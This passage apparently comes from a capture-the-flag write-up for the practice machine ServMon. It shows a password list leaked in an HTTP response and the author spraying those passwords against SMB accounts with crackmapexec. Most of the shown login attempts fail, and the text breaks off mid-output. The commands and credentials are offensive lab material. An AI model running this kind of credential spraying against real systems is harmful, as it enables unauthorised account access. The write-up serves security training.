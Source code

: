 

Returns:



    HTTP/1.1 200 OK
    Content-type: text/plain
    Content-Length: 156
    Connection: close
    AuthInfo: 

    1nsp3ctTh3Way2Mars!
    Th3r34r3To0M4nyTrait0r5!
    B3WithM30r4ga1n5tMe
    L1k3B1gBut7s@W0rk
    0nly7h3y0unGWi11F0l10w
    IfH3s4b0Utg0t0H1sH0me
    Gr4etN3w5w17hMySk1Pa5$



### Check Passwords

Since I only have a list of passwords without usernames, I'll create a
list of what I know now:



    root@kali# cat users 
    administrator
    nathan
    nadine
    root@kali# cat passwords 
    1nsp3ctTh3Way2Mars!
    Th3r34r3To0M4nyTrait0r5!
    B3WithM30r4ga1n5tMe
    L1k3B1gBut7s@W0rk
    0nly7h3y0unGWi11F0l10w
    IfH3s4b0Utg0t0H1sH0me
    Gr4etN3w5w17hMySk1Pa5$



I can now use `crackmapexec` to see if any of these passwords work for
any of the users for smb:



    root@kali# crackmapexec smb 10.10.10.184 -u users -p passwords
    SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:SERVMON) (signing:False) (SMBv1:False)
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 